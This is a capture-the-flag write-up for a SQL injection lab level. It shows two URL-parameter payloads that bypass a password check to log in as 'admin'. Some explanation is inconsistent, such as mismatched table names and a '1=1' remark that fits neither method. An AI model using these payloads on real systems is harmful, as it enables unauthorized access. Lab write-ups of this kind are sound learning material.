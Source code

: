 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 2
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/a20d5977-f907-4582-8e92-88ff3b574002)

We are provided with the SQL query:

```sql
SELECT id FROM prob_cobolt WHERE id='{$_GET[id]}' AND pw=md5('{$_GET[pw]}')`
```

This time the application requires us to query for the id `admin`.

### Method 1
In order to make the result of this query `True`, we can provide the following URI parameter:

```
?id=admin' -- -
```

The resultant query then becomes:

```sql
SELECT id FROM prob_cobalt WHERE id='admin' -- -' AND pw=md5('')

## Queried part:
SELECT id FROM prob_cobalt WHERE id='admin'

## Commented part:
AND pw=md5('')
```

Since 1=1 is always true, the result of the `OR` operation will always be `True`.

![2](https://github.com/Kunull/Write-ups/assets/110326359/0e1140d5-c226-41e0-9aee-b022a2b9a28f)


### Method 2
We can also make teh statement true using the following URI parameter:

```
?pw=') OR (id='admin
```

The resultant query will be:

```sql
SELECT id FROM prob_cobalt WHERE id='admin' AND pw=md5('') OR (id='admin')
```

![3](https://github.com/Kunull/Write-ups/assets/110326359/5c5d2723-8a7e-4ac1-81c4-67d5084b7506)
